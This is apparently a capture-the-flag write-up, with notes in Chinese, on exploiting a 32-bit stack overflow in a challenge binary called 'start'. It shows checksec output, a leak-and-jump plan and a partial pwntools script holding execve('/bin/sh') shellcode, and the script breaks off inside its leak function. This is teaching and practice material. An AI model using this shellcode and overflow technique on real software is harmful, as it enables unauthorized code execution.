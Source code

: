 ![image-20240125160222828](../assets/img/old_imgs/image-20240125160222828.png)

```shell
bamuwe@qianenzhao:~$ checksec start
[*] '/home/bamuwe/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

保护全关,但不能看伪代码,只能看汇编

思路:

1. 通过溢出泄露`buf(输入数据)`地址
2. 跳转到`buf`地址,写入`shellcode`
3. 跳转到`buf`地址,执行`shellcode`拿到`shell`

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
context.os = 'linux'
io = gdb.debug('./start')
padding = b'A'*0x14
buf_addr = 0x8048087
shellcode=b"\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80"

def leak():
    global buf_addr
    payload = padding+p32(buf_addr)

    io.sendafter( b"Let's start the CTF:",payload)
```